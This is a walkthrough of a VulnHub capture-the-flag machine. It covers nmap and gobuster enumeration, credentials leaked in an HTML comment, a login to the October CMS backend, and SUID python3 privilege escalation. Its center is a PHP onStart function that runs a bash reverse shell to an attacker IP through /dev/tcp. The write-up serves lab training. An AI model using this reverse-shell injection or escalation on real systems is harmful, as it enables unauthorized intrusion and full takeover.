

# It's October:1 - VulnHub

[It's October:1 VulnHub link](https://www.vulnhub.com/entry/its-october-1,460/)

## arp scan to find out our machine ip address on the network


we found out our target ip address is 192.168.56.104

## Nmap
first we need to check what ports and services are available for us in the target machine using nmap tool:


**command exaplain:**

**nmap** - network scanner tool used to discover hosts and services on machines.

**-sC** - preforming script scan using default scripts.

**-sV** - preforming service version detection.

**-oA** - output in all formats.

it is recommanded to scan the machine at the background for all ports while enumerating the machine, becuase all ports scan found the same ports I wont show it.

from the nmap scan we discovered 4 ports are open:

*port 22* - ssh OpenSSH.

*port 80* - Apache httpd.

*port 3306* - MYSQL.

*port 8080* - Apache httpd.

## httpd servers:

first we visit the two websites that are available to us:

*on port 80*


*on port 8080*


if we investigate the two websites we discover on My Notes website html code(on port 8080):

```html
<!DOCTYPE html>
<html>
<head>	
	<title>My Note</title>
</head>
<body>
	
	<!-- 
		<a href="mynote.txt">My Note</a>
	 -->
</body>
</html>
```

when we visit http://192.168.56.104:8080/mynote.txt we get the following credentials:

username: admin

password: adminadmin2

now usually when enumarating http website we should run on the background tool to discover hidden pages or directories

I will be using gobuster:


**command exaplain:**

**gobuster** - tool used to brute-force: URIs in web sites,DNS subdomains and Virtual Host names on web servers.

**dir** - directory brute-force mode.

**-u** - target url.

**-w** - wordlist to use in the brute-force.

**-o** - file output.

**-t** - maximum number of threads to use.

from the scan we got interesting page: /backend - managing section for the website.

we got a login screen were we get to use the credentials we found earlier.

and we got in!


now, we need to find a way to get a shell probably by creating new page that can get us a reverse shell.

after searching this backend section, found a way to add new page in cms section:


a little searching on google about the October framework (the website build in framework) tells us it's a php framework, in order to add a new page with php code we need to add the php code in the code section in a function called onStart:

```php
	function onStart() 
	{
		exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.103/1234 0>&1'"
	}
```


192.168.56.103 - attacker ip address.

1234 - attacker port.

if we save the page, open listening on port 1234 using netcat and browse to the page created we get a shell:


**command explain:**

**nc** - netcat, tcp and udp tool for connections and listens.

**-l** - listen for connections.

**-v** - verbose output.

**-p** - port number.

after getting the initial shell, we do some enumarating: investigating the existing users, maybe sudo permissions or running services at localhost, but found nothing.

then we search for files with suid as root - suid is special type of file permissions to run a file as it's owner, so when we run file with root owner and suid we are running as root, we can use this files for privilege escalation to get to root.

in order to find suid root files:



**command explain:**

**find** - command to search files.

**-user** - file is owned by...

**-perm** - file with permission (find suid file set as 4000)

**-print** - print the full file name.

**2>/dev/null** - redirect errors to /dev/null - meaning not printed on console.

one of the executable file set as root is python3!

we can use to pass command to the shell (as root) and get a shell:


and we got to root!
